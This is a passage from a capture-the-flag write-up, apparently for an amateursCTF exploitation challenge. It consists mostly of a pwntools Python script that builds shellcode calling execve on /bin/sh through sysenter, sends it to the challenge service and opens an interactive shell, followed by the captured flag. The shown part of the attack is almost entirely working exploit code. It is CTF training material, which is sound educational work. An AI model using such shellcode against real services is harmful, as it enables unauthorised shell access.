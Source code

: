 ```python
        xor edx, edx
                        
        mov eax, 11
        sysenter
    ''')

    payload = shellcode.ljust(0x1000, b'\x90')

    io.sendafter(b'>', payload)

    io.interactive()

def working_exploit():
    global io
    io = initialize()

    shellcode = b''
    shellcode += b'\x90' * 8

    shellcode += asm(f'''
        mov r10, rax
        add r10, 0x12d
                        
        mov r12, r10
        add r12, 0x100
        mov rbp, r12
    ''')

    shellcode += asm(f'''
        mov rbx, r10
        xor ecx, ecx
        xor edx, edx
                        
        mov eax, 11
        sysenter
    ''')

    shellcode += shellcode.ljust(0x100, b'\x90')
    shellcode += b'/bin/sh\x00'

    payload = shellcode.ljust(0x1000, b'\x90')

    io.sendafter(b'>', payload)

    io.interactive()
    
if __name__ == '__main__':
    working_exploit()
    # skill_issue_exploit()

```
{% endcode %}

{% hint style="success" %}
**Flag:** _amateursCTF{surely\_there\_arent\_any\_more\_ways\_to\_make\_syscalls\_right}_
{% endhint %}

***
